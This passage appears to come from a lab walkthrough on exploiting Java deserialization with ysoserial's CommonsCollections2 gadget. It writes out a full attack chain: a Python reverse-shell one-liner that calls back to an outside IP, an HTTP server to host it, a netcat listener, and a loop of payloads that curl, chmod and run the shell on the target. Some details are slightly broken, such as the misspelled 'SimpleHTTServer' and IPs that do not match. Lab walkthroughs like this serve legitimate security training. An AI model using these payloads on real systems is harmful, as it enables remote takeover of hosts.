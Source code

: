 Command:
```bash
python exploit.py
```

The result is code execution!

After a short, while seeing different responses for each payload, we can see that when CommonsCollections2 is used, pings start to appear.

Task 4. Obtain a reverse shell

To establish a reverse shell we will need to issue a command or series of commands. Keep in mind that in Java deserialization, you can use spaces in the commands, but you cannot use spaces in the arguments of the commands.

Step 1: Create a shell script to get the reverse shell from the target machine.

Save this code as rev.py in the root directory.

Code:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.46.20.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Step 2: Then let's host the above using Python's SimpleHTTPServer module in the directory where rev is present.

Command:
```python
python -m SimpleHTTServer 8443
```

Step 3: In another terminal window, start a Netcat listener.

Command:
```bash
nc -lvp 443
```

Step 4: Finally, the exploit is changed to generate the respective payloads one after the other.

- Download the reverse shell
- Make it executable
- Start the shell

```bash
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]

for command in commands:
  os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
  time.sleep(2)
```
